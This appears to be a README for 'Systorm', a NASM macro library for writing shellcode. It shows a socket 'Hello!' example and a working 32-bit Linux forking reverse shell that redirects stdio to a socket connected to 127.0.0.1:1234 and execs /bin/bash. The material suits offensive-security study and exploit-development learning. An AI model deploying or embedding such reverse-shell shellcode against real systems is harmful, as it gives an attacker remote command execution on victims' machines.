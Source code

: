 # Systorm
NASM Standard Library for shellcode
---
https://scorchsecurity.wordpress.com/2016/07/31/nasm-and-friends/

##Usage:
To use the methods defined in systorm, you have to include "systorm.inc" with: `%include "systorm.inc"`
You also have to include each method that you use (excepting syscalls) with `use func1, func2, ...`

A simple program is:
```
%include "systorm.inc"

global _start
; _start goes first
_start:
    jmp main

use sock.socket, sock.connect

main:
	stackframe 4

	sock.socket AF_INET, SOCK_STREAM
	mov dword [ebp-4], eax
	sock.connect dword [ebp-4], AF_INET, 0x0101017F, 0xD204	; 127.0.0.1, 1234

	inline 'Hello!', 0xa			; places addr of 'Hello!\n' into eax
	
	sys.write dword [ebp-4], eax, 7	; write 'Hello!\n' to sockfd
	sys.close dword [ebp-4]			; close sockfd
	
	leave
	sys.exit 0
```
As is evident, systorm defines a number of macros that can be used to perform useful operations, like including inline data and setting up stackframes.

Additionally, all syscalls (prefixed with "sys.") are set up as macros, so they do not need to be included like other functions.

A simple forking reverse shell is:
```
[BITS 32]

%include "systorm.inc"

global _start
_start:
    jmp main
    thread.fork main
    sys.exit 0

use sock.socket, sock.connect, thread.fork

main:
    stackframe 4

    sock.socket AF_INET, SOCK_STREAM
    mov dword [ebp-4], eax
    sock.connect dword [ebp-4], AF_INET, 0x0101017F, 0xD204	; 127.0.0.1, 1234s
    mov ecx, 2
.dup_loop:
    sys.dup2 [ebp-4], ecx
    dec ecx
    jns .dup_loop
exec:
    inline '/bin/bash', 0
    sys.execve eax, 0, 0
    sys.exit 0
```

